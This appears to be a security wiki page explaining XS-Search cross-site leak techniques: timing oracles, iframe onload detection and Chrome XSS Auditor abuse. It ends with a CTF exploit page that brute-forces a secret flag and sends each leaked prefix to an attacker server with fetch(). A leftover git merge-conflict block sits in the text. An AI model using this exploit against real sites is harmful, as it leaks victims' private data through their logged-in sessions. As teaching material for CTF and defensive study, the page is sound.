 # XS-Search

**The best resource to learn XS-Search is **[**https://xsleaks.dev/**](https://xsleaks.dev)

## XS-Search Time attack

Basically, you exploit a **CSRF vulnerability **to make a specific user access some **information **that the **victim can access** but you can't. Then, you **check **the **time **it take the request to be responded and depending on that you can know if the content was correctly accessed or not.

<<<<<<< HEAD
For example, imagine that the **admin of a web** page can **access all** the inside the **webfiles** service and **you only** can access **yours**, and you want to know the **content** of a **file** that starts with the string "_**flag**_".
=======
For example, imagine that the **admin of a web** page can **access all **the inside the **webfiles  **service and **you only **can access **yours**, and you want to know the **content **of a **file **that starts with the string "_**flag**_".
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

There is a **CSRF **vulnerability in the **seach by content** function and you can make the **admin visit any page**. Then, you could make the admin visit a malicious web server (yours) that will **exploit **the **CSRF **and will make the victim **search for **the file that starts with "_**flag**_". The attacker will make a **loop **so it will make the victim **search for every possibility** in: _flagX_. Then, if a character took **more time **that the rest, you can **asume **that it was the **correct **one and you can start a **new loop** with "_flag{X_" until you get the flag.

That is the **idea **but in the **real world **you need queries that retrive content take **much more time** that the queries that doesn't return anything.

For more information you can read:

* [https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549](https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549)
* [https://www.researchgate.net/publication/280738245\_Cross-Site_Search_Attacks](https://www.researchgate.net/publication/280738245\_Cross-Site_Search_Attacks)

## XS-Search - Iframe

Suppose that you can **insert **the **page **that has the **secret **content** inside an Iframe**.

You can **make the victim search** for the file that contains "_**flag**_" using an **Iframe** (exploiting a CSRF like in the prevous situation). Inside the Iframe you know that the _**onload event **_will be **executed always at least once**. Then, you can **change **the **URL **of the **iframe **but changing only the **content **of the **hash **inside the URL.

For example:

1. **URL1**: www.attacker.com/xssearch#try1
2. **URL2**: www.attacker.com/xssearch#try2

If the first URL was **successfully loaded**, then, when **changing **the **hash **part of the URL the **onload **event **won't be triggered** again. But **if **the page had some kind of **error **when **loading**, then, the **onload **event will be **triggered again**.

Then, you can **distinguish between **a **correctly **loaded page or page that has an **error **when is accessed.

If you can make the page error when the correct content is accessed and make it load correctly when any content is accessed, then you can make a loop to extract all the information without meassuring the time.

### Iframe Chrome XSS Auditor

Imagine the **same situation as in the Timing attack method **and you also know that the **admin **is using a **Chrome browser** (for example, Chrome-headless) **with Chrome XSS Auditor.**

Then, you can use **iframes **to make the victim **search **for the page containing "_**flagX**_" (beeing X **any **possible **character**)inside a loop, and you also add to the URL inside the iframes a **fake parameter **that **contains javascript code that will only appear when a valid content is retrived**.

For example, if when you **search for **the **content**_** "my file"**_ the web server responds with a page that **includes **this **javascript **code:

```
<script>console.log("you found someting");</script>
```

If you send a query like:

```
www.victim.com/search?q=my+file&fake_xss=<script>console.log("you+found+something");<script>
```

The **Chrome XSS Auditor will block** the page and an **error **will appear.

Then, you can use Chrome XSS Auditor to **launch an error **when a **valid response is sent** from the victim server. Then, with the **Iframe **trick you can **detect **when you have find a **file **that **contains **"_**flag**_" **and the next valid character**.

For more information: [https://www.youtube.com/watch?v=HcrQy0C-hEA](https://www.youtube.com/watch?v=HcrQy0C-hEA)

### Abusing Chrome XSS Auditor to steal tokens

Using the previous technique (with Chrome XSS Auditor) you can **steal chunks of the code returned to a user** (like tokens for example). For more information: [https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens](https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens)

Please, notice that you will steal information returned to a user and not any code from the web server.

## Custom Detection

In the **fbcft2019 **the **challenge**: **secret note keeper **was resolved exploiting a XS-Search.

You could make the **administrator **(a headlessChrome)** visit any page **and there was a **CSRF **vulnerable page that was able to** search files by content**. You also **knew **that the **flag starts **by _**fb{ **_and only the admin had access to it.

It was also important to notice that when you made a **search**, the results of the seach **appeared inside **an **iframe **(if something was found). And** none iframe appeared** if **anything **was found.

So, you could make the admin visit your exploit that will be a **loop of every possible charater** inside _fb{X _inside an iframe. And using:

```
contentWindow.frames.length != 0
```

You could **check **how **many iframes **where created **inside your iframe**, and** if an**y, then the **character **would be **correct **and you could start extracting the next one.

This is a code example of this from: [https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)

```
<!DOCTYPE html>
<html>

<head>
    <title>fbctf secret note keeper</title>
</head>

<body></body>
<script>
var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^`{|}~ ';
var charLen = chars.length;
var ENDPOINT = "http://challenges.fbctf.com:8082/search?query="
var x = document.createElement('iframe');

function search(leak, charCounter) {
    var curChar = chars[charCounter];
    //Chek if the character is valid
    x.setAttribute("src", 'http://challenges.fbctf.com:8082/search?query=' + leak + curChar);
    document.body.appendChild(x);
    console.log("leak = " + leak + curChar);
    //When the page inside the iframe is loaded
    x.onload = () => {
    //Check the number of iframes inside
        if (x.contentWindow.frames.length != 0) {
        // If 1 or more, then, the character was valid
            fetch('http://myserver/leak?' + escape(leak), {
                method: "POST",
                mode: "no-cors",
                credentials: "include"
            });
            leak += curChar
        }
        search(leak, (charCounter + 1) % chars.length);
    }
}

function exploit() {
    search("fb{", 0);
}

exploit();
</script>

</html>
```

## More information

{% embed url="https://github.com/xsleaks/xsleaks" caption="" %}

[https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)
